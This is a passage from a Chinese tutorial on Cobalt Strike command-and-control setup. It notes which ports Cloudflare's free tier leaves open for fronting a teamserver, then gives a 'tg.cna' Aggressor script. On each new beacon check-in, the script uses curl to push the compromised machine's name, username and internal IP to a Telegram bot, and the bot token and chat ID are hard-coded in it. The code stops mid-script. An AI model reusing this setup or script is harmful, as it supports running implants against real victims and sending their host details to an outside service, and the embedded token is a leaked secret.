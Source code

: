 修改teamserver

![](https://cdn.nlark.com/yuque/0/2025/png/33691709/1742376442288-b96e9af6-6def-4b0d-9189-e3035224e3e8.png)

### 注意事项

- 免费的CF服务开放的端口有限

```
http:   80、8080、8880、2052、2082、2086、2095
https:  443、2053、2083、2087、2096、8443
```

> https://www.cnblogs.com/backlion/p/17159661.html
> 

---

## 主机上线提示

使用tg机器人推送

1. 在c2目录下写入`tg.cna`

```bash
# author: dayu

# ------------ 设置以下配置 ------------
$bot_token = "8080893168:AAFnS5G1PJj2wmkoIO2PhiiYc08KF4igj-M";
$chat_id = '6183514149';               # 群组 ID 或用户 ID
$teamserver_hostname = 'HOSTNAME-1';   # 将收到包含该主机名的消息
# --------------------------------------

$tg_bot_webhookURL = 'https://api.telegram.org/bot' . $bot_token . '/sendMessage';
$test_message = 'this is a test message, test success';

# 测试消息发送
@curl_command = @(
    'curl', 
    '-X', 'POST',
    '--data-urlencode', 'chat_id=' . $chat_id,
    '--data-urlencode', 'text=' . $test_message,
    $tg_bot_webhookURL
);
exec(@curl_command);

# Beacon 初始回连事件处理
on beacon_initial {
    println("Initial Beacon Checkin: " . $1 . " PID: " . beacon_info($1, "pid"));
    
    local('$internalIP $computerName $userName');
    
    # 获取并格式化信息
    $internalIP   = replace(beacon_info($1, "internal"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName     = replace(beacon_info($1, "user"), " ", "_");

    # 构建 Telegram 消息内容
    $message = 'Message from ' . $teamserver_hostname . ' Server%0a' .
               'Beacon success implant Info Target:%0a' .
               'Computer name : ' . $computerName . '%0a' .
               'Username : ' . $userName . '%0a' .
               'Ipaddres : ' . $internalIP;

    # 构建 curl 命令并发送消息
    @curl_command = @(
```